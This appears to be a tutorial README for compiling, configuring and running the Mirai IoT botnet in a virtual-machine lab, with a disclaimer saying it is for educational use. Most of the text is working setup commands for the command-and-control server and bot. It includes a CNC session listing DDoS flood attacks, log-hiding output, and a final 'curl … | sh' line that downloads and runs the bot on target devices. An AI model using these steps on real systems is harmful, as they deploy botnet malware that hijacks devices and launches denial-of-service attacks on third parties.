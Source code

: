 # Mirai setup

## What you need:
- Working pihole setup(for local DNS server)
- Virtual Box(with atleast 3 instances of Ubuntu) 
- Copy of mirai source code

## What we will do
The goal is to setup and run mirai in an local environment.  
But a disclaimer at the beginning: Do not use this to actually attack somebody its only for educational use.
<br><br>

## Virtual Machine - 1 DNS server
First we need to setup a local DNS server to have query resolution to run bot.
For this we will be using Pi-Hole

To install Pi-Hole run the following command

```
curl -sSL https://install.pi-hole.net | sudo PIHOLE_SKIP_OS_CHECK=true bash
```
Packages will be installed and then a dialog will be shown as below:

Change the Pi-Hole password using this command

```
pihole -a -p [password]
```

Open Pi-Hole in your browser with the url that is shown in the terminal.


## Virtual Machine - 2 CNC & MySQL server
### First we need to install some packages  

```
sudo apt install gcc golang electric-fence mysql-server mysql-client screen dialog python3 apache2 -y
```
<br>

### The next step is to install the cross compilers
```
sudo bash ./tools/compilers.sh
```
<br>

**Now please restart your bash for those changes to take effect**
<br>

Now add paths for the installed cross-compilers into bash

To do that run 

```
sudo nano ~/.bashrc
```
After the file opens add these line at the end of the file

```
export PATH=$PATH:"/etc/xcompile/armv4l/bin"
export PATH=$PATH:"/etc/xcompile/armv5l/bin"
export PATH=$PATH:"/etc/xcompile/armv6l/bin"
export PATH=$PATH:"/etc/xcompile/i586/bin"
export PATH=$PATH:"/etc/xcompile/i686/bin"
export PATH=$PATH:"/etc/xcompile/m68k/bin"
export PATH=$PATH:"/etc/xcompile/mips/bin"
export PATH=$PATH:"/etc/xcompile/mipsel/bin"
export PATH=$PATH:"/etc/xcompile/powerpc/bin"
export PATH=$PATH:"/etc/xcompile/sh4/bin"
export PATH=$PATH:"/etc/xcompile/sparc/bin"
export PATH=$PATH:"/etc/xcompile/x86_64/bin"
```
save it and restart the terminal
### Now we can compile it for the first time
```
bash ./setup.sh
bash ./build.sh debug telnet
```
<br>

### Now we need to setup the database it's easy trust me.
Simply run:
```
cat ./tools/db.sql | sudo mysql
```
<br>

Now restart mysql to make sure all changes are loaded:
```
sudo systemctl restart mysql
```
<br>

### Now we need to change some settings.  
Simply run and type in your domain and dns server:
```
python3 setup.py
```
<br>

### Now we can compile it for the second time :D
```
bash ./build.sh debug telnet
```
<br>

### Now its time to setup pihole
To do this you need to login into pihole and go to Local DNS/DNS Records and type in the domain you used earlier in this tutorial and the ip of the server where the cnc is supposed to run on. **Don't forget to click on add!**
<br>

### And finlay we can run it!
To run the cnc use:
```
cd debug
screen -S mirai-cnc sudo ./cnc
```
<br>

To run a bot use:
```
cd debug
screen -S mirai-bot sudo ./mirai.dbg
```
<br>

To connect to the cnc using telnet use:
```
telnet localhost

You will be asked to login you can do that with the user we inserted earlier into the database it should look something like:

я люблю куриные наггетсы
пользователь: root
пароль: root

проверив счета... |
[+] DDOS | Succesfully hijacked connection
[+] DDOS | Masking connection from utmp+wtmp...
[+] DDOS | Hiding from netstat...
[+] DDOS | Removing all traces of LD_PRELOAD...
[+] DDOS | Wiping env libc.poison.so.1
[+] DDOS | Wiping env libc.poison.so.2
[+] DDOS | Wiping env libc.poison.so.3
[+] DDOS | Wiping env libc.poison.so.4
[+] DDOS | Setting up virtual terminal...
[!] Sharing access IS prohibited!
[!] Do NOT share your credentials!
Ready
root@botnet#
```
<br>

Finaly to see a list of attacks type:
```
root@botnet# ?
Available attack list
udp: UDP flood
dns: DNS resolver flood using the targets domain, input IP is ignored
stomp: TCP stomp flood
greip: GRE IP flood
greeth: GRE Ethernet flood
vse: Valve source engine specific flood
syn: SYN flood
ack: ACK flood
udpplain: UDP flood with less options. optimized for higher PPS
http: HTTP flood
```
<br>

### But wait there is more
We didn't see how to attack iot devices yet but first of all we need to compile the release binary's:
```
bash ./build.sh release telnet
```
<br>

Let's install the binary's to apache2:
```
cd release
sudo bash ../apache2.sh
```
<br>

Now lets run the cnc:
```
cd release
sudo screen -dmS mirai-cnc ./cnc
```
<br>

If you did everything right you can now load mirai onto a device with:
```
curl http://<your ip>/bins/bins.sh |sh
```
<br>
